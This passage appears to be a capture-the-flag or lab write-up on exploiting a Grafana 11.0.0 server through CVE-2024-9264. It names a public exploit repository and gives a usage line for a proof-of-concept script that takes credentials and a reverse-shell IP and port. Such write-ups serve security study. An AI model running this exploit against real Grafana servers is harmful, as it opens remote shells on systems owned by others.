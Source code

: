 ### Grafana Version Identification

The Grafana instance was identified as version 11.0.0, which is vulnerable to CVE-2024-9264.

**Vulnerability Details**:

- **CVE ID**: CVE-2024-9264
- **Impact**: Remote Code Execution
- **Affected Versions**: Grafana >= v11.0.0 (all v11.x.y versions)
- **Root Cause**: Insufficient input sanitization in SQL Expressions feature

### CVE-2024-9264 Research

Research revealed a public exploit for this vulnerability:

- **Repository**: https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit
- **Requirements**: Authenticated Grafana user with Viewer permissions or higher
- **Dependencies**: DuckDB binary accessible through Grafana's PATH

**Vulnerability Description**: The exploit leverages insufficient input sanitization in Grafana's SQL Expressions feature, allowing arbitrary shell command execution through the shellfs community extension.

## Initial Access

### CVE-2024-9264 Exploitation

The vulnerability was exploited using the public proof-of-concept:

**Usage**:

```bash
python3 poc.py [--url <target>] [--username <username>] [--password <password>] [--reverse-ip <IP>] [--reverse-port <PORT>]
```

**Successful Exploitation**:

![CVE Exploitation Success](images/Pasted%20image%2020250807173031.png)
